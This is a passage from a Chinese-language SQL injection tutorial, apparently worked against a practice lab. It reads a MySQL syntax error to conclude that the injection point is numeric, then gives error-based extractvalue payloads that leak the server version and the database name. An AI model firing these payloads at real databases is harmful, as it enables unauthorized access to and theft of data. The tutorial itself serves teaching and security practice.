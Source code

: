```shell
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
SELECT * FROM users WHERE id = 1' LIMIT 0,1
```

截取重要部分'' LIMIT 0,1'

除去将错误修饰的单引号' LIMIT 0,1

可以发现1后面的单引号'产生了报错，而我们输入的'2-1'并未出现闭合效果，判断是数字类型的注入

盲猜sql语句是：

```sql
select * from users where id = $id
```

接下来用报错获取信息。

## 2.3 获取当前数据库版本

```sql
1 and (extractvalue(1,concat(0x7e,(select version()),0x7e))) #
```

![image-20220603144303487](sql注入剖析.assets/image-20220603144303487.png)

## 2.4 获取当前的数据库名

```sql
1 and (extractvalue(1,concat(0x7e,(select database()),0x7e))) #
```

![image-20220603144406134](sql注入剖析.assets/image-20220603144406134.png)
